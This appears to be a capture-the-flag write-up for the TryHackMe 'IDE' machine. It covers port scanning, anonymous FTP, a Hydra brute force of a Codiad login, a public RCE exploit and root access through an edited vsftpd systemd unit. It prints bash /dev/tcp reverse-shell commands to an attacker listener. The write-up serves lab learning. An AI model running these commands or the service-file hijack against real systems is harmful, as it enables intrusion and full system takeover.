 ```yaml
---
title: THM - IDE
published: true
---
```

Hello, It is my first post. From now I start to post my writeup/notes about CTF challenges from differents platforms to share you my approach. 



# Enumeration
Let's scan ports :

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:C5:29:36:64:91 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

62337  open  tcp -> HTTP -> Codiad 2.8.4 #thanks to masscan

```

I found FTP, then I connected in anonymous mode : 
```
# Conntect to FTP
cd ...
get -

# File content 

Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```
According this file, we can guess john and drac are users of the machine
# Web Enumeration :
Whatweb to check web components used by the website :
```
WhatWeb report for http://10.10.49.31
Status    : 405 Method Not Allowed
Title     : Error response
IP        : 10.10.49.31
Country   : RESERVED, ZZ

Summary   : HTTPServer[WebSockify Python/3.6.9], Python[3.6.9]

Detected Plugins:
[ HTTPServer ]
	HTTP server header string. This plugin also attempts to 
	identify the operating system from the server header. 

	String       : WebSockify Python/3.6.9 (from server string)

[ Python ]
	Python is a programming language that lets you work more 
	quickly and integrate your systems more effectively. You 
	can learn to use Python and see almost immediate gains in 
	productivity and lower maintenance costs. 

	Version      : 3.6.9
	Website     : http://www.python.org/

HTTP Headers:
	HTTP/1.1 405 Method Not Allowed
	Server: WebSockify Python/3.6.9
	Date: Fri, 06 Jan 2023 13:01:12 GMT
	Connection: close
	Content-Type: text/html;charset=utf-8
	Content-Length: 472

```
Gobuster to enumerate directories : 
```
gobuster dir --url http://10.10.182.125 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,json,yaml,csv
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.182.125
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt,json,yaml,csv
[+] Timeout:        10s
===============================================================
2023/01/06 12:55:18 Starting gobuster
===============================================================
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2023/01/06 13:06:35 Finished
===============================================================

```

I attempted a directory bruteforece on the codiad service :
```
gobuster dir --url http://10.10.182.125 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,json,yaml,csv
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.182.125
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt,json,yaml,csv
[+] Timeout:        10s
===============================================================
2023/01/06 12:55:18 Starting gobuster
===============================================================
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2023/01/06 13:06:35 Finished
===============================================================
```

Earlier I found through my scan codiad on version 2.8.4.

# Exploitation
Codiad has a login page, then I attempted to crack password of john and drac users. I stored john and drac into users.txt file and brute forced their password thanks to Hydra : 

```
hydra  -L users.txt -P /usr/share/wordlists/rockyou.txt -v -s 62337 10.10.107.200 http-post-form "/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=fr:F={\"status\"\:\"error\",\"message\"\:\"Incorrect Username or Password\"}"
....
[62337][http-post-form] host: 10.10.107.200   login: john   password: password
```

To exploit codiad, I used the following exploit : [exploitdb](https://www.exploit-db.com/exploits/49705)


This exploit allows me to have a reverse shell.
First in a terminal I set up my reverse shell server : 
```
echo 'bash -c "bash -i >/dev/tcp/10.10.130.96/9002 0>&1 2>&1"' | nc -lnvp 9001
```
Then, I triggered the rce :

```
python exploit.py http://10.10.107.200:62337/ john password 10.10.130.96 9001 linux
```

# Post-Exploitation : 
## User flag :
After I got the machine, I checked the drac's commands history and I got his password because he logged into mysql with the -p flag.
```
cat /home/drac/.bash_history

mysql -u drac -p 'Th3dRaCULa1sR3aL'

```
Then, I got the flag user :
```
cat user.txt 
02930d21a8eb009f6d26361b2d24a466

``` 
## Privilege escalation to root : 
I Attempted to see what I could run as root using ```sudo -l```: 
```
drac@ide:/tmp$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart

```
I thought I could modify the vsftp service throught edition of /etc/systemd/system/vsftpd.service file but I could not write in this file. Then, In despair I launched linpeas and got the real service file I must edit to gain root access :
```
/lib/systemd/system/vsftpd.service 
```
Gaining root access :
```
[Unit]
Description=vsftpd FTP server

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'sh -i >& /dev/tcp/10.10.191.61/9001 0>&1'

[Install]
WantedBy=multi-user.target
```

Setting up root reverse shell : 
```
nc -lnvp 9001
# After restarting vsftp service (sudo /usr/sbin/service vsftpd restart)
cat /root/root.txt
ce258cb16f47f1c66f0b0b77f4e0fb8d -> the flag 

```